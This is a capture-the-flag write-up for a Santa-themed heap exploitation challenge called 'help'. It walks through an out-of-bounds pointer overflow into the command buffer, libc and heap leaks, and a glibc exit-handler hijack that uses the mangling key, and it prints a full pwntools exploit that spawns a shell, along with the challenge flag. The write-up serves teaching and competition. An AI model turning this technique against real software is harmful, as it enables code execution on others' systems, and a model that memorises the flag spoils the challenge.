



# help

- Published: 12/23/2024 (#x/23 in event)
- Category: Binary exploitation
- Points: 150
- Author: Kolmus

Oh no! Santa really needs your HELP! Just as the final preparations were happening at the flag factory, one of the elfs
went rogue and deleted Santa’s entire mailing list. We’re currently looking through all the stacks and heaps of address
books as an emergency solution ... we absolutely need you to figure out how the mailing list got compromised! Hurry!

Connect using `nc ctf.csd.lol 7777`.

## Attachments

- [help](https://files.vipin.xyz/api/public/dl/aVjkuvLz/Day%2023%20-%20help/help)
- [libc.so.6](https://files.vipin.xyz/api/public/dl/gVMlV7Sp/Day%2023%20-%20help/libc.so.6)
- [ld-linux-x86-64.so.2](https://files.vipin.xyz/api/public/dl/FPHHhdd7/Day%2023%20-%20help/ld-linux-x86-64.so.2)

## Hints

**Hint 1:**

The index bounds check is only in one direction. Overwriting a pointer that you have read and write access to is very
powerful.

**Hint 2:**

Why is `/dev/null` opened just to then get closed again? If you’re having trouble getting anywhere from that, check out:
[https://blog.osiris.cyber.nyu.edu/2019/04/06/pivoting-around-memory/](https://blog.osiris.cyber.nyu.edu/2019/04/06/pivoting-around-memory/).

## Write-up

<details>
<summary>Reveal write-up</summary>

On doing a checksec on the binary we find that it has all protections enabled:

```c
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

Furthermore, the libc version is 2.39 which is important to consider when exploiting.

The pseudocode of the main function is as follows:

```c
void main(void)
{
  int iVar1;
  FILE *__stream;
  void *pvVar2;
  long lVar3;
  undefined8 *puVar4;
  long in_FS_OFFSET;
  byte bVar5;
  int local_1a4;
  undefined8 local_198 [16];
  char local_118 [264];
  undefined8 local_10;

  bVar5 = 0;
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  puts("Welcome to Santa\'s Mailing List!");
  puts("Available commands: malloc/free/scanf/puts/exit");
  fflush(stdout);
  __stream = fopen("/dev/null","r");
  fclose(__stream);
  puVar4 = local_198;
  for (lVar3 = 0x10; lVar3 != 0; lVar3 = lVar3 + -1) {
    *puVar4 = 0;
    puVar4 = puVar4 + (ulong)bVar5 * -2 + 1;
  }
  local_118[0] = '\0';
  // truncated; all the bytes in local_118 are set to 0
  local_118[0xff] = '\0';
  local_1a4 = -1;
  while( true ) {
    __isoc99_scanf("%255s",local_118);
    iVar1 = strcmp(local_118,"exit");
    if (iVar1 == 0) break;
    iVar1 = strcmp(local_118,"malloc");
    if (iVar1 == 0) {
      pvVar2 = malloc(0x40);
      local_198[local_1a4 + 1] = pvVar2;
      local_1a4 = local_1a4 + 1;
    }
    else if (local_1a4 < 0) {
      puts("invalid command");
      fflush(stdout);
    }
    else {
      iVar1 = strcmp(local_118,"free");
      if (iVar1 == 0) {
        free((void *)local_198[local_1a4]);
        local_1a4 = local_1a4 + -1;
      }
      else {
        iVar1 = strcmp(local_118,"scanf");
        if (iVar1 == 0) {
          __isoc99_scanf(&DAT_00102089,local_198[local_1a4]);
        }
        else {
          iVar1 = strcmp(local_118,"puts");
          if (iVar1 == 0) {
            puts((char *)local_198[local_1a4]);
            fflush(stdout);
          }
          else {
            puts("invalid command");
            fflush(stdout);
          }
        }
      }
    }
  }
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

There are a few key observations to be made here:

Data of chunks which are malloc'd are not zeroed out, giving us free heap and libc leaks (will be elaborated on later)

We can only call scanf and puts on the last chunk we allocated since the program uses local_1a4 to track our most
recently malloc'd chunk

We can overflow local_198 with our malloc'd chunk pointers; This is because local_1a4 can increment until it is ≥ 15,
allowing us to malloc a pointer into local_198[16] and beyond.

```c
    iVar1 = strcmp(local_118,"malloc");
    if (iVar1 == 0) {
      pvVar2 = malloc(0x40);
      local_198[local_1a4 + 1] = pvVar2;
      local_1a4 = local_1a4 + 1;
    }
```

This allows us to overflow into the buffer (local_118) used for writing our commands!

Freed pointers are not cleared from memory. However, this is actually a small detail which we won't need much for our
exploit.

```c
      iVar1 = strcmp(local_118,"free");
      if (iVar1 == 0) {
        free((void *)local_198[local_1a4]);
        local_1a4 = local_1a4 + -1;
      }
```

Notice that if our malloc pointers overflow into the command buffer, when we are writing the command we can modify those
pointers as well! For example, if I have already malloc'd 18 times, then local_118[0] would have a malloc pointer and so
would local_118[1]. Then, if I input a command like b'puts\x00\x00\x00\x00\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA', then my
command would be correctly interpreted to be puts (since my command ends with a null terminator) and the program would
attempt to read whatever is at address 0xAAAAAAAAAAAAAAAA. This means that we have an arbitrary read.

If we use a command like b'scanf\x00\x00\x00\xAA\xAA\xAA\xAA\xAA\xAA\xAA\xAA' then we could also write data into
0xAAAAAAAAAAAAAAAA . This means we also have an arbitrary write!

So what should we overwrite in order to get a shell?

Some of the popular options would include:

- Overwriting a global offset table entry, e.g. overwrite GOT entry for free to system to potentially call
  system('/bin/sh') when we free a chunk. This won't work since both libc and the binary have full RELRO enabled.

- Overwriting **malloc_hook or **free_hook. These won't work since it has been patched in this libc version.

- Overwriting the return address of main. This won't work since main doesn't return. Rather, main calls exit to exit the
  program.

Note: The challenge author's solution was actually to get a stack leak, then overwrite the return address of scanf.
However, I adopted a different solution.

It turns out that when a program exits, it calls a list of exit functions. Furthermore, the structs which contain these
exit functions are in the DATA region of libc, which is readable and writeable. Hence, if we can overwrite these exit
functions correctly to functions that can give us a shell, when the program exits we could get a shell!

Some useful resources to learn how this exploit technique works can be found here and here.

TLDR:

When exit() is called, it calls \_\_run_exit_handlers

```c
void exit (int status)
{
  __run_exit_handlers (status, &__exit_funcs, true, true);
}
__run_exit_handlers takes in a struct exit_function_list ** , then for each entry it demangles the function pointer and calls the function:
```

```c
/* Call all functions registered with `atexit' and `on_exit',
   in the reverse of the order in which they were registered
   perform stdio cleanup, and terminate program execution with STATUS.  */
void
attribute_hidden
__run_exit_handlers (int status, struct exit_function_list **listp,
       bool run_list_atexit, bool run_dtors)
{
  /* First, call the TLS destructors.  */
#ifndef SHARED
  if (&__call_tls_dtors != NULL)
#endif
    if (run_dtors)
      __call_tls_dtors ();

  /* We do it this way to handle recursive calls to exit () made by
     the functions registered with `atexit' and `on_exit'. We call
     everyone on the list and use the status value in the last
     exit (). */
  while (*listp != NULL)
    {
      struct exit_function_list *cur = *listp;

      while (cur->idx > 0)
 {
   const struct exit_function *const f =
     &cur->fns[--cur->idx];
   switch (f->flavor)
     {
       void (*atfct) (void);
       void (*onfct) (int status, void *arg);
       void (*cxafct) (void *arg, int status);

     case ef_free:
     case ef_us:
       break;
     case ef_on:
       onfct = f->func.on.fn;
#ifdef PTR_DEMANGLE
       PTR_DEMANGLE (onfct);
#endif
       onfct (status, f->func.on.arg);
       break;
     case ef_at:
       atfct = f->func.at;
#ifdef PTR_DEMANGLE
       PTR_DEMANGLE (atfct);
#endif
       atfct ();
       break;
     case ef_cxa:
       cxafct = f->func.cxa.fn;
#ifdef PTR_DEMANGLE
       PTR_DEMANGLE (cxafct);
#endif
       cxafct (f->func.cxa.arg, status);
       break;
     }
 }

      *listp = cur->next;
      if (*listp != NULL)
 /* Don't free the last element in the chain, this is the statically
    allocate element.  */
 free (cur);
    }

  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());

  _exit (status);
}
```

The struct exit_function_list and the other relevant structs look like this:

```c
enum
{
  ef_free, /* `ef_free' MUST be zero!  */
  ef_us,
  ef_on,
  ef_at,
  ef_cxa
};

struct exit_function
  {
    /* `flavour' should be of type of the `enum' above but since we need
       this element in an atomic operation we have to use `long int'.  */
    long int flavor;
    union
      {
 void (*at) (void);
 struct
   {
     void (*fn) (int status, void *arg);
     void *arg;
   } on;
 struct
   {
     void (*fn) (void *arg, int status);
     void *arg;
     void *dso_handle;
   } cxa;
      } func;
  };
struct exit_function_list
  {
    struct exit_function_list *next;
    size_t idx;
    struct exit_function fns[32];
  };
```

There are 5 different types of exit handlers: ef_free, ef_us, ef_on, ef_at and ef_cxa.

During demangling, the following assembly in \_\_run_exit_handlers is applied:

```nasm
   0x0000000000039fe9 <+217>: ror    rdx,0x11
   0x0000000000039fed <+221>: xor    rdx,QWORD PTR fs:0x30
   0x0000000000039ff6 <+230>: call   rdx
```

Essentially, the fs register is a special register which points to the per thread data, also known as the Thread Control
Block (TCB).

At fs:0x30 is the pointer guard, which is a "secret value" used to mangle and demangle the function pointers of the exit
handlers.

Some Python code for rol, rol and encrypting is given below:

```c
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))
```

# encrypt a function pointer

```py
def encrypt(v, key):
    return p64(rol(v ^ key, 0x11, 64))
```

Usually, the struct exit_function_list \*\* passed to \_\_run_exit_handlers has at least one entry in it, and the first
entry is usually the \_dl_fini function which is in ld code. Therefore to find the pointer guard value, there are 2 ways
to do so:

Leak the value from fs:0x30

Calculate the value from the address of \_dl_fini and the mangled pointer

For my solution I adopted the second approach.

First I needed to find out the location of \_\_exit_funcs (which is the struct exit_function_list \*\* ) so in GDB I can
do something like this:



So we can see that it contains two pointers, the first of which is a pointer to the exit_function_list struct for
\_dl_fini.



Now that I know the address of exit_function_list \* and I know that it is in a fixed position within the libc data
section, I can calculate its offset.

Alternatively if I wanted to find the position of fs:0x30 I could also have done something like this:



Notes:

TCB region is always located directly above libc

The 0x6b66c574a13346de we see is the pointer guard value

Note that the TCB is readable and writeable, and the exit function structs are also readable and writeable. Therefore
for exploitation, we can either:

Rewrite pointer guard value to a value of our choosing and change the exit_function_list struct for \_dl_fini (arb
write + arb write), or

Read pointer guard value, then change exit_function_list struct for \_dl_fini (arb read + arb write)

I also went with the second approach for my solution.

A brief outline of my solution is written below, including all the leaks I got, how I got them, and how I finally
exploited the program:

Malloc, free, malloc then read a chunk to get a heap leak (this is because the heap metadata is not cleared when
mallocing a chunk)

```py
r.sendlineafter(b"exit\n",b"malloc")
r.sendline(b"free")
r.sendline(b"malloc")
r.sendline(b"puts")
heap_leak = u64(r.recv(5) + b"\x00\x00\x00")
heap_base = (heap_leak << 12) - 0x1000
log.info(f"heap base: {hex(heap_base)}")
```

Malloc a bunch of times so our malloc pointers overflow into the command buffer

```py
for _ in range(20):
    r.sendline(b"malloc")
```

At this point the program has malloc'd 21 times, the last 5 of which overflow into the command buffer.

Since the program forces all chunks malloc'd to be of size 0x40, we cannot directly free a chunk into the unsorted bin
and get a libc leak. However, I used arbitrary write to change the size field of a chunk to be a large value such as
0x800 then freed it. The freed chunk would go into the unsorted bin. I then used the arbitrary read to read its
metadata, which points to main arena in libc which is at a constant offset, thereby getting the libc leak.

Note:

To prevent coalescing of this big chunk with the wilderness, and to prevent double free or corruptions from being
detected, I had 1 fake 0x800 size chunk followed by 2 fake 0x30 size chunks. I free the first 0x30 chunk to act as a
guard chunk to prevent the 0x800 chunk from coalescing, then free the 0x800 chunk. The third chunk is necessary to
prevent corruption errors.

```py
target = heap_base + 0x1ed8
target_subs_chk = target + 0x800
target_subs_chk2 = target_subs_chk + 0x30
log.info(f"target: {hex(target)}")
# arbitrary write time!
r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target))
r.sendline(p64(0x801))
r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk))
r.sendline(p64(0x31))
r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk2))
r.sendline(p64(0x31))
# free a guard chunk
r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk + 8))
r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 2 + p64(target + 8))
r.sendline(b"puts\x00\x00\x00\x00" + p64(0) + p64(target + 8))
# now we read from the unsorted bin chunk
r.recvuntil(b"\n")
main_arena_leak = u64(r.recv(6) + b"\x00\x00")
libc.address = main_arena_leak - (0x00007f3910b14b20 - 0x7f3910911000)
log.info(f"libc address: {hex(libc.address)}")
```

Since I have a libc leak, and ld is adjacent to libc, and \_dl_fini is at a constant offset in ld, I know the address of
\_dl_fini. Furthermore, since the exit_function_list struct of \_dl_fini is at a constant offset in libc, I also know
its address. Thus I know both the unmangled and mangled values of the \_dl_fini function pointer and can calculate the
pointer guard value:

```py
_dl_fini_offset_from_ld = 0x7f1648c11380 - 0x7f1648c0c000
ld_offset_from_libc = 0x7f1648c0c000 - 0x7f16489f8000
_dl_fini = libc.address + ld_offset_from_libc + _dl_fini_offset_from_ld # + 0x2000 # different offset btw libc & ld on remote
log.info(f"_dl_fini at: {hex(_dl_fini)}")
exit_fn_list = libc.address + (0x00007f1648bfcfc0 - 0x7f16489f8000)
log.info(f"exit function list at: {hex(exit_fn_list)}")
r.sendlineafter(b"\n", b"puts\x00\x00\x00\x00" + p64(0) + p64(exit_fn_list + 0x18))
mangled_dl_fini_ptr = u64(r.recv(8))
# obtain the key
key = ror(mangled_dl_fini_ptr, 0x11, 64) ^ _dl_fini
log.info(f"key is: {hex(key)}")
```

Note: For some reason, on remote the offset between ld and libc is 0x2000 more than the local offset. I got this value
by bruteforcing.

Now that I have the key (aka pointer guard) value, I can mangle a function pointer to system in libc. I then overwrite
the exit_function_list struct for \_dl_fini with my own. In order for it to run system("/bin/sh") on exit, the exit
function list has to be of type ex_cfa (which is represented by 4 in the enum). We keep the id field the same (which is
1), and we add a pointer to /bin/sh in libc as \*arg.

```py
# onexit_fun is the fake struct
onexit_fun = p64(0) + p64(1) + p64(4) + encrypt(libc.sym['system'], key) + p64(next(libc.search(b"/bin/sh"))) + p64(0)
r.sendlineafter(b"\n", b"scanf\x00\x00\x00" + p64(0) + p64(exit_fn_list))
r.sendline(onexit_fun)
```

Finally, we can exit the program. On exiting, it will run system("/bin/sh") and give us shell!

Below is my full exploit code:

```py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./help_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
"""
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
"""
def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("ctf.csd.lol", 7777)

    return r

EXIT_FUNCS_OFFSET = 0x204fa8
# context.log_level = 'debug'
rol = lambda val, r_bits, max_bits: \
    (val << r_bits%max_bits) & (2**max_bits-1) | \
    ((val & (2**max_bits-1)) >> (max_bits-(r_bits%max_bits)))

ror = lambda val, r_bits, max_bits: \
    ((val & (2**max_bits-1)) >> r_bits%max_bits) | \
    (val << (max_bits-(r_bits%max_bits)) & (2**max_bits-1))

# encrypt a function pointer
def encrypt(v, key):
    return p64(rol(v ^ key, 0x11, 64))


def main():
    r = conn()
    r.sendlineafter(b"exit\n",b"malloc")
    r.sendline(b"free")
    r.sendline(b"malloc")
    r.sendline(b"puts")
    heap_leak = u64(r.recv(5) + b"\x00\x00\x00")
    heap_base = (heap_leak << 12) - 0x1000
    log.info(f"heap base: {hex(heap_base)}")

    for _ in range(20):
        r.sendline(b"malloc")

    # change the size of a chunk to be a big number like 0x800, then make subsequent chunks have prev_inuse set
    target = heap_base + 0x1ed8
    target_subs_chk = target + 0x800
    target_subs_chk2 = target_subs_chk + 0x30
    log.info(f"target: {hex(target)}")
    # arbitrary write time!
    r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target))
    r.sendline(p64(0x801))
    r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk))
    r.sendline(p64(0x31))
    r.sendline(b"scanf\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk2))
    r.sendline(p64(0x31))
    # free a guard chunk
    r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 3 + p64(target_subs_chk + 8))
    r.sendline(b"free\x00\x00\x00\x00" + p64(0) * 2 + p64(target + 8))
    r.sendline(b"puts\x00\x00\x00\x00" + p64(0) + p64(target + 8))
    # now we read from the unsorted bin chunk
    r.recvuntil(b"\n")
    main_arena_leak = u64(r.recv(6) + b"\x00\x00")
    libc.address = main_arena_leak - (0x00007f3910b14b20 - 0x7f3910911000)
    log.info(f"libc address: {hex(libc.address)}")
    # now we overwrite exit handlers
    # if libc base = 0x7f16489f8000, struct exit_function_list ** is at 0x7f1648bfb680
    # and struct exit_function_list * is at 0x00007f1648bfcfc0
    # exit_function_list * looks smt like
    # pwndbg> x/16gx 0x00007f1648bfcfc0
    # 0x7f1648bfcfc0: 0x0000000000000000      0x0000000000000001 <- idx
    # 0x7f1648bfcfd0: 0x0000000000000004 <- flavour      0x79adc930260324ba <- mangled ptr
    # 0x7f1648bfcfe0: 0x0000000000000000      0x0000000000000000
    _dl_fini_offset_from_ld = 0x7f1648c11380 - 0x7f1648c0c000
    ld_offset_from_libc = 0x7f1648c0c000 - 0x7f16489f8000
    _dl_fini = libc.address + ld_offset_from_libc + _dl_fini_offset_from_ld + 0x2000 # different offset btw libc & ld on remote
    log.info(f"_dl_fini at: {hex(_dl_fini)}")
    exit_fn_list = libc.address + (0x00007f1648bfcfc0 - 0x7f16489f8000)
    log.info(f"exit function list at: {hex(exit_fn_list)}")
    r.sendlineafter(b"\n", b"puts\x00\x00\x00\x00" + p64(0) + p64(exit_fn_list + 0x18))
    mangled_dl_fini_ptr = u64(r.recv(8))
    # obtain the key
    key = ror(mangled_dl_fini_ptr, 0x11, 64) ^ _dl_fini
    log.info(f"key is: {hex(key)}")
    onexit_fun = p64(0) + p64(1) + p64(4) + encrypt(libc.sym['system'], key) + p64(next(libc.search(b"/bin/sh"))) + p64(0)
    r.sendlineafter(b"\n", b"scanf\x00\x00\x00" + p64(0) + p64(exit_fn_list))
    r.sendline(onexit_fun)
    r.sendline(b"exit")
    r.interactive() # csd{Y0Ur_HeLp_15_MuCH_4PPr3CiA73d}

if __name__ == "__main__":
    main()
```

Flag: `csd{Y0Ur_HeLp_15_MuCH_4PPr3CiA73d}`

</details>

Write-up by elijah5399
